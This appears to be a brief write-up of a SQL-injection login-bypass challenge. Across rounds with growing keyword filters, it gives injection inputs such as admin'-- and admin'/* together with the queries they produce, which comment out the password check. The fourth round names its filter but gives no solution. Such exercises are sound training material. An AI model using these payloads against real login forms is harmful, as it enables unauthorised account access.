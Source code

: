 
Round 1 - filter: or
```sql
input: admin'--
SELECT * FROM users WHERE username='admin'--' AND password='a'
```
Round 2 - filter: or and like = --

```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'
```

Round 3 - filter: or and = like > < --
```sql
input: admin'/*
SELECT * FROM users WHERE username='admin'/*' AND password='a'
```

Round 4 - filter: or and = like > < -- admin

